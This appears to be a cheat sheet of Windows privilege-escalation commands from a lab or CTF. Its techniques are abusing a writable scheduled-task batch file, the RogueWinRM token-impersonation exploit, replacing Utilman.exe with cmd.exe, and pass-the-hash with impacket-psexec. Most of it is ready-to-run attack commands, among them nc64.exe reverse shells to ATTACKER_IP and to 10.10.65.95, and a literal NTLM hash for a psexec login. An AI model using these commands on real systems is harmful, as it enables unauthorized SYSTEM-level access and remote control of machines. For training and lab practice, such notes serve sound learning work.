 # sheduled task (like crond on linux)
```
schtasks /query /tn vulntask /fo list /v
```
check permissions
```
icacls c:\tasks\file
```
`c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)`
As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, nc64.exe can be found on C:\tools. Let's change the bat file to spawn a reverse shell:
```
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\<taskfile>
```
## run a task
```
schtasks /run /tn <taskname>
```
# privilege
## SeImpersonate / SeAssignPrimaryToken
```
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe 10.10.65.95 4444"
```
## SeTakeOwnership
```
takeown /f C:\Windows\System32\Utilman.exe
```
```
icacls C:\Windows\System32\Utilman.exe /grant <actualUser>:F
```
```
 copy cmd.exe utilman.exe
```
 lock our screen from the start button and  proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges. Since we replaced it with a cmd.exe copy, we will get a command prompt with SYSTEM privileges.
# Unpatched software
list installed programms
```
wmic product get name,version,vendor
```

#*└─#* (get admin shell)
```
impacket-psexec -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.129.95.210

```
